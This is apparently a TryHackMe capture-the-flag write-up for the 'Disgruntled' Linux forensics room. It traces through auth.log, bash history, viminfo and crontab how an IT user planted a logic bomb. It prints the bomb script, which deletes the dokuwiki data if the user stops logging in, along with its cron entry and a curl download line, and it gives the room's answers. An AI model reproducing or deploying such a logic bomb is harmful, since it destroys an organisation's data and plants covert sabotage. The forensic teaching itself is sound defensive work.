 # Disgruntled
> use your linux forensic knowledge ( pre req: https://tryhackme.com/room/linuxforensics)


## Tasks

Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

Answer the questions below
- The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
grep sudo /var/log/auth.log | grep install

# OUTPUT
Dec 28 06:17:30 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/bin/apt install dokuwiki
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/bin/apt install dokuwiki
Dec 28 06:20:55 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/bin/chown www-data:www-data /usr/share/dokuwiki/VERSION /usr/share/dokuwiki/bin /usr/sh
are/dokuwiki/doku.php /usr/share/dokuwiki/feed.php /usr/share/dokuwiki/inc /usr/share/dokuwiki
/index.php /usr/share/dokuwiki/install.php /usr/share/dokuwiki/lib /usr/share/dokuwiki/vendor 
-R
```

- What was the present working directory (PWD) when the previous command was run?
```
/home/cybert
```

---

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

Which user was created after the package from the previous task was installed?
```bash
grep sudo /var/log/auth.log | grep adduser 
# output
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/sbin/adduser it-admin
```
Answer: it-admin


A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
```bash
root@ip-10-10-129-127:~# grep sudo /var/log/auth.log | grep visudo
# output
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```
Answer: Dec 28 06:27:34

A script file was opened using the "vi" text editor. What is the name of this file?
```bash
grep sudo /var/log/auth.log | grep vi
# output
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
Dec 28 07:14:27 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/service sshd restart 
```
answer: bomb.sh

---

**Bomb has been Planted**

That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

What is the command used that created the file bomb.sh?
```bash
# from the previous task we know it's it-admin
cat /home/it-admin/.bash_history
# output
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```
Answer format: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

The file was renamed and moved to a different directory. What is the full path of this file now?
```bash
# we know attacker uses vi
cat /home/it-admin/.viminfo | grep saveas
# output
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
```
Answer format: /bin/os-update.sh


When was the file from the previous question last modified? (Format: Month Day HH:MM)
```bash
ls -la /bin | grep os-update
#output
-rw-r--r--  1 root root     325 Dec 28  2022 os-update.sh
```
Answer: Dec 28 06:29


What is the name of the file that will get created when the file from the first question executes?
```bash
root@ip-10-10-129-127:~# cat /bin/os-update.sh 
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" >
 /goodbye.txt
fi
```
---

**Following The Fuse**
So we have a file and a motive. The question we now have is: how will this file be executed?
Surely, he wants it to execute at some point?

```bash
root@ip-10-10-129-127:~# cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow usercommand
17 ** * *root    cd / && run-parts --report /etc/cron.hourly
25 6* * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.da
ily )
47 6* * 7roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.we
ekly )
52 61 * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.mo
nthly )
0 8* * *root/bin/os-update.sh
#
```

---

**Conclusion**

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.


## SUMMARY of script

```bash
# look for was installed
grep sudo /var/log/auth.log | grep install
# look for added user
grep sudo /var/log/auth.log | grep adduser 
# check if given with sudo privileges
grep sudo /var/log/auth.log | grep visudo

# check new user bash history
cat /home/it-admin/.bash_history
# check given vim for new saved
cat /home/it-admin/.viminfo | grep saveas

# check the file timeline
ls -la /bin | grep os-update

# check the actual file
cat /bin/os-update.sh
```

## SKILLS TESTED
- grep
- linux administration
    - /var/log files
    - history
- vim